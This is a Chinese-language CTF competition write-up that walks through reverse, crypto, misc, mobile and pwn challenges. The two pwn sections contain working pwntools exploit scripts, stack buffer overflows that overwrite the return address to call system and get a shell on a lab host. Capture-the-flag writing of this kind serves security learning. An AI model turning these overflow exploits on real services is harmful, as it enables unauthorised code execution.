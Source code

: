 ```yaml
---
title: 记一次不知名比赛的WP
tags:
  - 比赛
  - CTF
permalink: /archives/10397/
published: 2023-06-24 01:28:52
---
```

# Reverse

## Reverse_签到

找到main函数，就看到了flag

![image-20230620090120146](./images/image-20230620090120146.png)

# Crypto

## easily_Caesar

凯撒解码一把梭，key=24

![image-20230620094549028](./images/image-20230620094549028.png)

# Misc

## medium_CTFvalues

16进制转文本得到unicode编码

![image-20230620094134558](./images/image-20230620094134558.png)

unicode转ascii码得到base64字符串

![image-20230620094222386](./images/image-20230620094222386.png)

![image-20230620094242228](./images/image-20230620094242228.png)

base64解码得到一个字符串，然后ascii码转文本

![image-20230620094305264](./images/image-20230620094305264.png)

## difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符

![image-20230620121849142](./images/image-20230620121849142.png)

得到，把ip地址进行包裹提交

![image-20230620121956543](./images/image-20230620121956543.png)

# Pwn

## easily_pwn_1

程序分析：64位程序，开启了NX保护

![image-20230620140607482](./images/image-20230620140607482.png)

代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。

![image-20230620140450114](./images/image-20230620140450114.png)

然后找是否存在后门函数

![屏幕截图 2023-06-20 140859](./images/屏幕截图 2023-06-20 140859.png)

找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

![屏幕截图 2023-06-20 141330](./images/屏幕截图 2023-06-20 141330.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

## medium_pwn_2

程序分析：32位程序，开启了NX保护

![image-20230620141634557](./images/image-20230620141634557.png)

代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，

![image-20230620141720828](./images/image-20230620141720828.png)

又看到了system函数,但是少了'/bin/sh'

![image-20230620141900964](./images/image-20230620141900964.png)

找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

![image-20230620142144275](./images/image-20230620142144275.png)

![image-20230620142020421](./images/image-20230620142020421.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
